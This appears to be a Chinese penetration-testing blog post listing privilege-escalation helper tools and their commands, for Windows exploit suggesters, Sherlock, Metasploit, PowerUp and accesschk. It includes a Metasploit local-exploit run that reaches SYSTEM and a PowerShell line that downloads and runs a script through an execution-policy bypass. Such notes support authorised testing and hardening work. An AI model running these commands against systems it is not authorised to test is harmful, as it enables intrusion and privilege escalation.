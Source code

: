 ```yaml
---
# 这是页面的图标
icon: script
# 这是文章的标题
title: 常用的提权扫描辅助工具总结
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-18
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 提权
comment: false
---
```


### 使用Windows-Exploit-Suggester解析systeminfo

下载地址：https://github.com/AonCyberLabs/Windows-Exploit-Suggester

```bash
./windows-exploit-suggester.py
```

### 使用Linux-Exploit-Suggester.sh寻找linux提权问题

下载地址：https://github.com/mzet-/linux-exploit-suggester

```
./linux-exploit-suggester.sh
```

### 使用Sherlock工具

下载地址：https://github.com/rasta-mouse/Sherlock

```
Import-Module Sherlock.ps1
Find-AllVulns
```

### 使用MSF查询补丁和可利用提权漏洞

```
#查询补丁

meterpreter> run post/windows/gather/enum_patches 
[+] KB2999226 installed on 11/25/2020
[+] KB976902 installed on 11/21/2010

#查询Exp

msf> use post/multi/recon/local_exploit_suggester 
msf> set LHOST <攻击机IP>
msf> set SESSION <session_id>
msf> run

# 利用示例

msf> use exploit/windows/local/cve_2019_1458_wizardopium 
msf> set SESSION <session_id>
msf> run
meterpreter> getuid
Server username: NT AUTHORITY\SYSTEM
```

### 使用powerup检查提权漏洞

```
powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
powershell.exe -nop -exec bypass -c "IEX (New-object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');Invoke-AllChecks"
```

### 使用accesschk.exe对系统扫描发现高权限可执行程序，且能够被低权限用户更改

```
accesschk "d:\dir"
查看所有用户在d盘dir路径的子路径的权限

accesschk "Administrator "d:\dir"
查看Administrator用户在d盘dir路径的子路径的权限

accesschk Administrators -c *
查看Administrators组对所有服务的权限

accesschk -k Guest hklm\software
查看Guest用户对hklm\software注册表的权限

accesschk -ou User
查看User用户对全局对象的权限
```

### 查找主机上具有的CVE，查找具有公开EXP的CVE的Python脚本

下载地址：https://github.com/chroblert/WindowsVulnScan

```
.\KBCollect.ps1
python3 -m pip install requirements.txt
cve-check.py -u

查看具有公开EXP的CVE
cve-check.py -C -f KB.json
```

### 在线提权漏洞检测平台

极光无限出品的安全扫描仪，在提权方面，基于其强大的安全检测能力，能够给出专业的修复建议，有效验证和加固网络资产漏洞。

查询地址：https://detect.secwx.com/

### 提权辅助网页

在Windows提权的时候，对比补丁找Exp很烦吧？这个网站数据源每周更新一次，值得推荐

查询地址：http://bugs.hacking8.com/tiquan/